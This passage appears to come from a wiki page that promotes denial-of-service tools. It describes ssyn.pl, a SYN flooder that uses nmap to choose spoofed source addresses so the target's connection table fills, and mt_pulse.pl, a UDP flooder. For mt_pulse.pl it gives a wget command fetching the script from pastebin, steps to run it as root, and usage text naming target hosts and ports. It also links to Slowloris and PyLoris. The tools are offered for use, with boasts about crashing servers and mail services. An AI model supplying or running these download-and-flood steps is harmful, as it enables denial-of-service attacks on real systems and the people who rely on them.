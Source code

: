 * [The full Slowloris release document.](http://www.anonym.to/?http://ha.ckers.org/slowloris/)
* [The PyLoris home page.](http://www.anonym.to/?http://www.motomastyle.com/pyloris/)

## Ssyn.pl

syn.pl is a perl-script in the spirit of [pyRAEP](/pyRAEP) and [Longcat Flooder](/Longcat_Flooder). It does what any normal synflooder does only a bit better. I got bored with the line of _"Linuxfags use hping3"_ - it is very inefficient. For the basic randomize approach, writing a simple code would do the job would be better.

### Tech

Any SYN-flooder trades in half-open tcp connections - those in which the SYN has been received and ACK is sent, but as of yet the SYN-ACK packet hasn't yet been sent in the three-way handshake. The traditional SYN-flooder uses random source-IP:s on the packets, but this is inefficient in as the node in question often receives a "destination unreachable" ICMP from some network router before the half-open connection is timed out.

Ssyn.pl uses [nmap](http://anonym.to/http://insecure.org/) to find IP:s which don't reply on ACK - silently drop the packet - due to paranoia and O'Reilly books. This means, each and every packet has to timeout in the OS tcp/ip buffer. This can either be dealt with by ignoring incoming connections or allocating more resources. This has the effect of making the system run essential functions slower, often crashing the machine or an almost total blackout in serving webpages, mail services, etc...
Also, 'ssyn.pl' is a abbreviation of 'sendsyn'
    Note: for an eternal run, specify --iteration=-1

### Requirements

* [Perl](http://anonym.to/http://cpan.org/)
* [raw-IP module for perl](http://anonym.to/http://search.cpan.org/~szabgab/Net-RawIP-0.23/lib/Net/RawIP.pm)
* [nmap](http://anonym.to/http://insecure.org/)
* root

### Download

(missing?)

## mt_pulse.pl

**mt_pulse.pl** is a [Perl](/Perl) script which directs an UDP flood to an IP

### HowTo

  $ wget <http://pastebin.com/raw.php?i=yT2caM18> -o udpflood.pl     _#download_
  $ chmod +x udpflood.pl     _#make executable_
  $ sudo ./udpflood.pl     _#show help; _**_must_**_ be run as root_

### Info

    UDP Flooder  -  Randomizes SourceIP/Port and Destination Port
    	Usage: ./udpflood.pl <A> ** [C]
    		A: Number of Packets/sec (in kilobytes/sec -- set it around your max upload speed)
    			(Starts to get CPU intensive when using >500KB/s...)
    		B: Target Host or IP Address
    		C: Target Port (Not Required)
    	Ex: ./udpflood.pl 10 localhost -- to flood yourself @ 10kb/s on random ports
    	Ex: ./udpflood.pl 100 192.168.1.1 123 -- to flood your default gateway @ 100kb/s on UDP port 123
    **
### **Download** #
[** Pastebin**](http://anonym.to/http://pastebin.com/yT2caM18)
wget <http://pastebin.com/raw.php?i=yT2caM18> -o udpflood.pl
